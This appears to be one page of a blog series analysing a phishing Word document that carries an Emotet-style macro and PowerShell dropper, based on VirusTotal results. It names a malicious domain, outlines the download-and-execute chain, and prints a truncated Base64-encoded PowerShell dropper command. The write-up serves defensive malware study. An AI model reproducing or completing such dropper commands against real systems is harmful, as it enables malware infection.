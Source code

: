 ```yaml
---
layout: default
---
```


### Initial analysis

The hero of my project was file PL_95054906484_68262954.doc which was attached in phishing mail received by my friend.

Because it is Microsoft Office Word file I also installed Microsoft Office on my Windows machine. What is more, based on my knowledge I assumed that I had to deal with Office macro and dropper written in PowerShell.  

For a good start, I used VirusTotal.

![](../assets/images/emotet_re_project/virustotal_1.png)

Most of the AV Engines detected threat. By analysing tags I confirmed my previous assumptions. Additionally tags showed the that code could be obfuscated.

![](../assets/images/emotet_re_project/virustotal_2.png)

In DETAILS I found metadata like author, time of file creation and software which was used for its creation.

![](../assets/images/emotet_re_project/virustotal_7.png)

But more interesting were information about the OLE objects:

![](../assets/images/emotet_re_project/virustotal_3.png)

![](../assets/images/emotet_re_project/virustotal_4.png)

And macros:

![](../assets/images/emotet_re_project/virustotal_5.png)

![](../assets/images/emotet_re_project/virustotal_6.png)

This also confirmed that the code was obfuscated in order to make analysis harder.

In RELATIONS I gained informations about attacker infrastructure.

There, I found three domains from which the dropper would probably try to download "proper malware".

![](../assets/images/emotet_re_project/virustotal_8.png)

pieceofpassion.net domain was registered by proxy which allow for anonimity. 

![](../assets/images/emotet_re_project/virustotal_9.png)

In BEHAVIOUR I found more specific information about what the malware does.

Domain requests:

![](../assets/images/emotet_re_project/virustotal_10.png)

Register modifications:

![](../assets/images/emotet_re_project/virustotal_11.png)

Created process:

![](../assets/images/emotet_re_project/virustotal_12.png)

PowerShell instructions:

![](../assets/images/emotet_re_project/virustotal_13.png)

This sequence was particularly interesting:

```powershell
    powershell -enco PAAjACAAaAB0AHQAcABzADoALwAvAHcAdwB3AC4AbQBpAGMAcgBvAHMAbwBmAHQALgBjAG8AbQAvACAAIwA+ACAAJABSAGUAZgBpAG4AZQBkAF8AUABsAGEAcwB0AGkAYwBfAFMAb…
```
                
That is PowerShell script encoded by Base64.

The 126.exe file is also worth noticing. It appeared in process tree. I supposed that it was the resulted file which had created by dropper module.

Created process and services:

![](../assets/images/emotet_re_project/virustotal_15.png)

Used DLL files:

![](../assets/images/emotet_re_project/virustotal_14.png)

### Summary

Based on information that I gained from VirusTotal I created small steps list which illustrates what the mysterious doc file could do:  

1.  After running a doc file in MS Word editor, the macro is processed. (Propably we have to allow macro execution)
2.  Macro spawns cmd process which starts encoded PowerShell script.
3.  PowerShell script downloads content of malware which is saved in 126.exe file.
4.  Then PowerShell script runs 126.exe and creates service sizetablet.exe. 

But what the file 126.exe and the created service really does? I wasn't able to affirm that in this stage of analysis but I thought that it could be a ransomware.

#### Table of content:

1.  [Environment configuration](environment-configuration.html)
2.  [Initial analysis](initial-analysis.html)
3.  [Macro analysis](macro-analysis.html)
4.  [Dropper analysis](dropper-analysis.html)
5.  [Detonation](detonation.html)
7.  [Domain analysis](domain-analysis.html)
8.  [Detonation ver. 2](detonation-v2.html)
9.  [Summary](summary.html)
